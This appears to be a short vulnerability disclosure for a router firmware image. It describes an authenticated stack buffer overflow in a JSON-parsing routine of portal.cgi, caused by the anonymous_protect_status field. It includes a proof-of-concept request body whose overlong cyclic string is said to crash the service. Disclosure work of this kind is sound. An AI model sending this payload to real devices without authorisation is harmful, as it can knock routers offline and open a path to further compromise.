


## Firmware

Firmware version:FW_E8450_1.2.00.360516_prod_signed.img

## Analyze

Authenticated buffer overflow

The vulnerability is located at address 0x413640 . The sub_422eb8 function is an json parsing function.The parsed fields(anonymous_protect_status) are copied to the stack using strncpy without length verification.



## Poc

It can be seen that after setting specific user input, the original length of the content is passed into the strncpy parameter, causing the program to crash.



Send the following data to this url to trigger the vulnerability:  http://target/cgi-bin/portal.cgi 

```json
{"action":"set","page":"dashboard_configuration_security","ipv6_protect_status":"1","ipv4_protect_status":"2","anonymous_protect_status":"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaaj"}
```

